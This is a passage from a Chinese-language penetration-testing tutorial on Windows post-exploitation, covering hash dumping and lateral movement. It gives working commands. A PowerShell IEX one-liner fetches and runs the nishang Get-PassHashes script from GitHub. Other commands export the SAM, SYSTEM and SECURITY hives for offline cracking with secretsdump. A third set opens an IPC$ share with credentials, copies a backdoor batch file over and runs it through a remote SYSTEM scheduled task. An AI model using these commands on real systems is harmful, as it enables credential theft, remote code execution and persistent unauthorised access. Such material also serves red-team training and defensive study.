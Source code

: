 ​    ![image.png](https://image.3001.net/images/20200304/15833017791624.png!small)

​    **3.1.4Powershell脚本抓取**

​    当目标系统存在powershell时，可直接一句powershell代码调用抓取，前提是目标可出外网，否则需要将ps1脚本放置内网之中。执行:

```
powershell IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1’);Get-PassHashes
```

​    **3.1.5Sam破解**

​    使用注册表来离线导出Hash

```
reg save HKLM\SYSTEM system.hiv    reg save HKLM\SAM sam.hiv    reg save hklm\security security.hiv
```

​    导出后可以使用mimikatz加载sam.hiv和sam.hiv来导出Hash。或者使用impacket 套件中secretsdump.py 脚本去解密，也是可以的。

```
python secretsdump.py -sam sam.hiv -security security.hiv -system system.hiv LOCAL
```

###     3.2横向移动

​    **3.2.1IPC+计划任务**

​    通过ipc$实现对windows默认共享的访问，配合计划任务执行后门程序获取服务器权限。

​    1、通过net use建立IPC$连接

```
net use \\192.168.91.131\IPC$ /user:"administrator" "abc@123"
```

​    ![image.png](https://image.3001.net/images/20200304/15833018286050.png!small)

​    2、利用copy上传后门文件

> ​    copy D:\test.bat [\\186.64.10.13\c$](file://186.64.10.13/c$)

​    ![image.png](https://image.3001.net/images/20200304/15833018404700.png!small)

​    3、创建计划任务执行后门程序

```
schtasks /create /s 186.64.10.13 /u Administrator /p Admin@123.. /ru "SYSTEM" /tn test /sc DAILY /st 22:18 /tr C:\\windows\\temp\\test.bat /F
```

​    创建计划任务，/tn是任务名称，/sc是任务运行频率，这里指定为每天运行， /tr指定运行的文件，/F表示强制创建任务

```
schtasks /run /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /i
```

​    运行任务，其中/i表示**立即运行**

```
schtasks /delete /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /f
```
